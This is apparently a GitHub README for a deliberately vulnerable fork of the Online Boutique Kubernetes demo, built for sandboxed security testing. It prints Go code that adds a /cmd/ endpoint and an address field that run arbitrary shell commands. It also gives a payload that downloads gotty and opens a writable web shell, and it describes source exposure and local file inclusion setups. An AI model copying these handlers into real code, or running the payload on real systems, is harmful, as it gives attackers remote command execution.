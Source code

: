 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accomodate some of the usecases mentioned below

1. **Sensitive keys in codebases** -
     commiting sensitive information to version control system.

2. **Custom handle with code execution** -
    a custom httpHandler to replyback *whoami*
3. **Vulnerable address field** - 
    to executes codes in the backend


> **Note :** This tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed enviroment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public ip**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
4. **Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
5. **Give commands in Address field to intall and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />

## Local File Inclusion
**Deployment**
<br />
step-1
```
kubectl apply -f microservices-demo/release/lfi.yaml
```
step-2
```
kubectl get svc | grep lfi
```
step-3
	1. Copy the External IP
	2. Open this file "microservices-demo/src/frontend/templates/header.html
	3. Go to line 39 and change the <a> tag herf IP address using LFI External IP
	4. Save the file and build docker image for frontend
